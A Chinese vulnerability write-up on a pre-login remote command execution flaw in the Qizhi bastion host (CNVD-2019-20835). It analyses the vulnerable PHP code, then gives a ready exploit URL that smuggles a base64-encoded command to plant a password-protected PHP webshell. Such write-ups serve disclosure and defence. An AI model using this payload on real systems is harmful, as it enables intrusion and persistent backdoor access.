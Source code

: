 （CNVD-2019-20835）齐治堡垒机 前台远程命令执行漏洞
==================================================

一、漏洞简介
------------

利用条件：无需登录

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

问题出现在ha\_request.php文件，第37行的exec函数，\$url为用户可控的变量，可见第33和34行。目光来到第23和24行，只要node\_request函数的返回值为"OK"，即可跳过fatal函数（此函数为自定义函数，作用类似PHP内置的exit函数），继续往下执行。

　　Node\_request函数的定义在include/common.php文件中，见下图2。按照其原本的逻辑，其作用是请求\$url，并返回其内容。根据代码逻辑，\$url
=
\"http://\$req\_ipaddr\".\"/listener/\$method.php?n=\$req\_node\_id&a=\".urlencode(json\_encode(\$args));。所以\$url变量值类似于

<http://10.20.10.11/listener/cluster_manage.php?n=1&a=%5B%22install%22%5D>这样的字符串。

　　但是\$req\_ipaddr和\$req\_node\_id均来自用户输入。因此，假设10.20.10.11为黑客可控的服务器，listener/cluster\_manage.php文件的内容为"\<?php
echo
'OK';\>"，即可使得node\_request函数返回"OK"，从而跳过fatal函数，继续往下执行来到exec函数。

　　回到exec函数，此时该函数的第一个参数是这样的，\"wget
\--no-check-certificate http://10.20.10.11
/ha\_get\_install.php?n=\$req\_node\_id -O
backup\_scripts.tar.bz2\"，所以我们的payload只能放在\$req\_node\_id变量中。

　　见下图，\$req\_ipaddr和\$req\_node\_id其实来自于\$\_REQUEST\['ipaddr'\]和\$\_REQUEST\[node\_id'\]，并做了全局过滤，删除掉一些危险字符。![1.png](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId26.png)![2.png](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId27.png)![3.png](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId28.png)

### 漏洞复现

访问**http://www.0-sec.org/listener/cluster\_manage.php**返回"OK"。

执行以下链接即可getshell，执行成功后，生成PHP一句话马/var/www/shterm/resources/qrcode/lbj77.php
密码10086

    https://www.0-sec.org/ha_request.php?action=install&ipaddr=www.0-sec.org&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash`|${IFS}|echo${IFS}

参考链接
--------

> https://www.cnblogs.com/StudyCat/p/11256944.html
